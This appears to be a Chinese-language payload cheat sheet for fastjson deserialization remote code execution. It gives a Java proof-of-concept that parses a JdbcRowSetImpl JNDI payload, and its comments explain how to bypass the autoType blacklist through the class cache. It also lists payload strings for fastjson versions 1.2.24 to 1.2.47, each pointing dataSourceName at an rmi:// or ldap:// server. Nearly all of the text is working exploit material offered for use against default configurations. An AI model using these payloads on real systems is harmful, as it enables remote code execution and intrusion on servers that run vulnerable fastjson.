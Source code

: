 ### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/HikariConfigPoc.java

## JdbcRowSetImpl RCE（<= 1.2.48）（常用）

fastjson 1.2.48 以下不需要任何配置，默认配置通杀 RCE

### Payload

```
  public static void main(String[] args) {
    //TODO 使用rmi server模式时，jdk版本高的需要开启URLCodebase trust
//    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");

    /*
    * TODO 该payload需要先通过java.lang.Class把com.sun.rowset.JdbcRowSetImpl加载进fastjson缓存，然后利用
    * TODO checkAutoType方法的缺陷（先通过缓存查询，有则立马返回，JdbcRowSetImpl否则检查黑名单hash）绕过黑名单和autoType的检查
    */
//    String payload = "[{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:43657/Calc\",\"autoCommit\":true}]";//rmi方式
    String payload = "[{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:43658/Calc\",\"autoCommit\":true}]";//ldap方式
    JSON.parse(payload);
    //所以，该payload需要分两步进行
  }
```

其他版本 Payload

```
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

未知版本(1.2.24-41之间)
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.41
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.42
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};

1.2.43
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}

1.2.45
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}

1.2.47
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
```
